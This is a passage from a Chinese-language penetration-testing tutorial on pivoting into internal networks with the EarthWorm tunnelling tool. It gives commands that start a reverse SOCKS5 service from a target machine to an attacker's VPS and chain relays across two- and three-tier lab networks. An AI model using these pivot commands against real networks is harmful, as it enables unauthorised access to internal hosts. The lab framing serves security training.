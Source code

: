    然后在 目标机器上执行

   ```cmd
   ew -s rssocks -d VPSip -e 8888
   ```

   意为在目标机器上启动 SOCKS 5 服务,然后反弹到 VPS 的 8888 端口.

   **这样就可以使用 VPS:1080 架设的 SOCKS 5 代理服务了,访问目标机器的内网.**

   测试一下:

   我在 win7 启动了 SOCKS 5 服务并反弹到 VPS 8888 端口上,

   然后我 kali 浏览器代理到 VPS 1080 上,就可以访问 win7 及其内网其他机器了,因为没有全局代理所以 ping 不同.

   [![rOcgg0.md.png](https://s3.ax1x.com/2020/12/30/rOcgg0.md.png)](https://imgchr.com/i/rOcgg0)

3. 二级网络环境

   测试环境: 

   A : kali    192.168.2.158(公网)    20.1.1.17

   B: win7    10.1.1.21           20.1.1.18

   C : win2008 web服务器   10.1.1.23

   攻击者:  win10

   A  B  C  都在内网之中, A 有两块网卡, 一块有 公网 IP ,一块是内网IP , 但是 A 只能访问到内网中的 B ,访问不到 C ,而 B 恰好不能访问公网,但可以访问内网包括 C .

   测试目标:

   通过A 和 B 的代理是攻击者直接访问到 C .

   开始:

   将 EW 上传到 B  , 用 ssocksd 方式启动 1080 端口的 SOCKS 代理,

   ```bash
   ew_for_win_32.exe -s ssocksd -l 1080
   ```

   然后将 ew 上传到 A ,执行

   ```bash
   ./ew_for_linux64 -s lcx_tran -l 1080 -f 20.1.1.18 -g 1080
   ```

   意为: 将 1080 端口收到的代理请求转发给 B 主机的 1080 端口 .

   现在就可以通过 A 主机的 外网 1080 端口 SOCKS 5 代理访问 C 了.

   将浏览器弄上 A 的 SOCKS 5 代理后就可以访问 C 了.
   
   [![rOvr9I.md.png](https://s3.ax1x.com/2020/12/30/rOvr9I.md.png)](https://imgchr.com/i/rOvr9I)
   
4. 三级网络环境

   其实和二级网络环境是差不多的,一级一级地推进去就可以了.

## 六、 压缩数据
